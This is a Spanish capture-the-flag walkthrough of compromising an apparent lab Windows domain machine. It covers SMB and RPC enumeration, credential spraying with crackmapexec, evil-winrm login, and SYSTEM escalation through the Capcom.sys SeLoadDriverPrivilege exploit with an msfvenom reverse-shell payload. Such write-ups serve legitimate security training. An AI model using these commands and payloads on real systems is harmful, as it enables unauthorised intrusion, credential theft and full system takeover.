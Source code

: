 sudo arp-scan --interface=eth1 --localnet

192.168.1.148

nmap: 

![image](https://github.com/user-attachments/assets/14a62243-adf8-4284-9f40-2537cdd9b605)

--------

En el escaneo nos dio muchos puertos pero nos dio: "smb2-time:" 
podemos empezar a lanzar por SMB. 
lanzamos:

     smbmap -H 192.168.1.148 -u invitado


![image](https://github.com/user-attachments/assets/1d33d6d6-deba-47fe-b60d-43316c9e5117)

y nos importa los dos que dicen READ ONLY y volvemos a lanzar un smbmap pero utilizando los IPC:

     smbclient -U invitado //192.168.1.148/NETLOGON2

nos da un txt con: Pericodelospalotes6969

![image](https://github.com/user-attachments/assets/2bc4068f-81e0-4b9b-b8ac-51e4a17df294)

ahora tenemos un usuario y una posible contraseña, lanzamos:

     smbmap -H 192.168.1.148 -u orujo -p Pericodelospalotes6969



![image](https://github.com/user-attachments/assets/2bc577e4-de24-44e5-87d2-84c4db6844df)

ahora nos dio un "ah.txt" lo pasamos a nuestro terminal 

![image](https://github.com/user-attachments/assets/784ad59c-4333-4c12-8ff3-c7bc196762c1)

ahora vamos a enumerar los usuarios con "rpcclient" con el de Orujo

     rpcclient -U 'Orujo' 192.168.1.148 

![image](https://github.com/user-attachments/assets/974c54b7-ace5-4d28-8756-2df6318e73d7)

ahora todos esos nombres los vamos a meter a un txt. 

>Administrador
Invitado
krbtgt
DefaultAccount
Orujo
Ginebra
Whisky
Hendrick
Chivas Regal
Whisky2
JB
Chivas
beefeater
CarlosV
RedLabel
Gordons

lanzamos: 

     crackmapexec smb 192.168.1.148 -u user.txt -p ah.txt

![image](https://github.com/user-attachments/assets/e934eaaa-d8a3-48d0-9c02-ad1570ca12ad)

obtenemos: PACHARAN.THL\Whisky:MamasoyStream2er@ 

ahora que tenemos la contraseña podemos usar "rpcclient" otra vez pero con la contraseña que encontramos. 

     rpcclient -U "Whisky%MamasoyStream2er@" 192.168.1.148 -c 'enumprinters'

nos da: 

![image](https://github.com/user-attachments/assets/03369f0d-1684-4ddd-b2dd-8dec5aaab65e)

donde marque puede que sea una contraseña. 

lanzamos: 

     crackmapexec winrm 192.168.1.148 -u user.txt -p TurkisArrusPuchuchuSiu1

![image](https://github.com/user-attachments/assets/88ee92a6-b636-4295-a1ad-be9f0f3b7e50)

obtenemos: [+] PACHARAN.THL\Chivas Regal:TurkisArrusPuchuchuSiu1 (Pwn3d!)

**"Pwn3d!" se usa cuando un sistema, servidor o cuenta ha sido comprometido exitosamente. Ejemplo: si un atacante logra acceso root a un sistema, puede decir "Pwn3d!" para indicar que ha tomado el control total.**

lanzamos:

    evil-winrm -i 192.168.1.148 -u 'Chivas regal' -p TurkisArrusPuchuchuSiu1

y obtenemos 

![image](https://github.com/user-attachments/assets/0ae3d987-5a41-410c-9099-9acfcc01049d)

ahora vamos a escalar privilegios, vamos a crear una carpeta con los exploit que necesitaremos para escalar y aquí hay una explicación sobre la escalada: https://www.tarlogic.com/es/blog/explotacion-seloaddriverprivilege/

nos vamos a la carpeta raíz y creamos un /tmp y dentro empezamos a cargar los exploit.
https://github.com/JoshMorrison99/SeLoadDriverPrivilege

     upload LoadDriver.exe

     upload Capcom.sys

     upload ExploitCapcom.exe 

pasamos esos exploit a la maquina victima, y nos creamos una reverse shell 

     msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o rev.exe

ahora pasamos la rev.exe a la maquina victima, colocamos el terminal nuestro en escucha y ejecutamos el exploit junto a la reverse shell.

     .\ExploitCapcom.exe C:\tmp\rev.exe

![image](https://github.com/user-attachments/assets/e0f60556-5f68-4574-8212-ede7fc0b0647)

como vemos da: nt authority\system
que es el nivel mas alto de privilegios del sistema. 
